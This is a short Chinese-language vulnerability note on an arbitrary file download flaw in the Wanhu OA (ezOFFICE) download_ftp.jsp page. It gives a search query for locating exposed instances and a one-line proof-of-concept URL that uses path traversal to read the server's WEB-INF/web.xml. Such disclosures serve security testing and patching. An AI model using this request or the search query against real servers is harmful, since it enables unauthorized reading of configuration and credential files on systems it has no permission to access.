 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132512473](images/202205201325574.png)

验证POC

```
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![image-20220520132537562](images/202205201325636.png)

